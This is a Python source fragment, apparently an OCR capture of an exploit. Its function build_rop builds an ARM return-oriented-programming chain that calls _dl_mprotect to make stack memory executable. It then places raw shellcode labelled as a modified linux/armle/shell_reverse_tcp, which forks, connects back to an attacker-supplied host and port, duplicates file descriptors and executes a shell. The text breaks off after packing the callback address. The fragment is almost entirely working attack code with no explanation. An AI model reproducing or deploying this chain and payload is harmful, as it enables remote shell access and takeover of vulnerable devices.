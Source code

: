 def build_rop(off, sp_addr, newpc_val, cb_host, cb_port):
    rop = ''
    rop += struct.pack('<L', sp_addr + off + 0x10) # new sp
    rop += struct.pack('<L', 0xb0002a98)           # new lr - pop {pc}
    rop += struct.pack('<L', 0xb00038b2+1)         # new pc: pop {r0, r1, r2, r3, r4, pc}

    rop += struct.pack('<L', sp_addr & 0xfffff000) # new r0 - base address (page aligned)
    rop += struct.pack('<L', 0x1000)               # new r1 - length
    rop += struct.pack('<L', 7)                    # new r2 - protection
    rop += struct.pack('<L', 0xd000d003)           # new r3 - scratch
    rop += struct.pack('<L', 0xd000d004)           # new r4 - scratch
    rop += struct.pack('<L', 0xb0001144)           # new pc - _dl_mprotect

    native_start = sp_addr + 0x80
    rop += struct.pack('<L', native_start)         # address of native payload
    #rop += struct.pack('<L', 0xfeedfed5)          # top of stack...
    # linux/armle/shell_reverse_tcp (modified to pass env and fork/exit)
    buf =  ''
    # fork
    buf += '\x02\x70\xa0\xe3'
    buf += '\x00\x00\x00\xef'
    # continue if not parent...
    buf += '\x00\x00\x50\xe3'
    buf += '\x02\x00\x00\x0a'
    # exit parent
    buf += '\x00\x00\xa0\xe3'
    buf += '\x01\x70\xa0\xe3'
    buf += '\x00\x00\x00\xef'
    # setsid in child
    buf += '\x42\x70\xa0\xe3'
    buf += '\x00\x00\x00\xef'
    # socket/connect/dup2/dup2/dup2
    buf += '\x02\x00\xa0\xe3\x01\x10\xa0\xe3\x05\x20\x81\xe2\x8c'
    buf += '\x70\xa0\xe3\x8d\x70\x87\xe2\x00\x00\x00\xef\x00\x60'
    buf += '\xa0\xe1\x6c\x10\x8f\xe2\x10\x20\xa0\xe3\x8d\x70\xa0'
    buf += '\xe3\x8e\x70\x87\xe2\x00\x00\x00\xef\x06\x00\xa0\xe1'
    buf += '\x00\x10\xa0\xe3\x3f\x70\xa0\xe3\x00\x00\x00\xef\x06'
    buf += '\x00\xa0\xe1\x01\x10\xa0\xe3\x3f\x70\xa0\xe3\x00\x00'
    buf += '\x00\xef\x06\x00\xa0\xe1\x02\x10\xa0\xe3\x3f\x70\xa0'
    buf += '\xe3\x00\x00\x00\xef'
    # execve(shell, argv, env)
    buf += '\x30\x00\x8f\xe2\x04\x40\x24\xe0'
    buf += '\x10\x00\x2d\xe9\x38\x30\x8f\xe2\x08\x00\x2d\xe9\x0d'
    buf += '\x20\xa0\xe1\x10\x00\x2d\xe9\x24\x40\x8f\xe2\x10\x00'
    buf += '\x2d\xe9\x0d\x10\xa0\xe1\x0b\x70\xa0\xe3\x00\x00\x00'
    buf += '\xef\x02\x00'
    # Add the connect back host/port
    buf += struct.pack('!H', cb_port)
    cb_host = socket.inet_aton(cb_host)
    buf += struct.pack('=4s', cb_host)
